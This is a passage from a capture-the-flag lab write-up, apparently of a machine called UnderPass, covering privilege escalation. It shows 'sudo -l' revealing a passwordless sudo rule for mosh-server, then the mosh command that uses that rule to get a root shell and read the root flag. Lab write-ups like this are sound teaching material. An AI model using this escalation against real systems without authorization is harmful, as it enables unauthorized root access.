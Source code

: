
We have sucessfully connected and got the user flag!

---

## 4. Privilege Escalation and Root Flag

After gaining user access to the system, I checked the user's sudo privileges using the command `sudo -l`

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server
```

This revealed that the user had the ability to execute mosh-server with sudo privileges without requiring a password.

I took advantage of this by using `mosh` to initiate a remote shell to the local host. Instead of using the default `mosh localhost` command, I overrode the default execution settings and ran the following command to execute `mosh-server` with elevated privileges:

```shell
svcMosh@underpass:~$ mosh --server="sudo /usr/bin/mosh-server" localhost
```
This allowed me to obtain a root shell. Once I had root access, I retrieved the root flag:

```shell
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sun Jan 19 07:24:37 PM UTC 2025

  System load:  0.0               Processes:             237
  Usage of /:   51.4% of 6.56GB   Users logged in:       1
  Memory usage: 18%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



root@underpass:~# whoami
root
root@underpass:~# cat root.txt
2[-----REDACTED-----]0
```

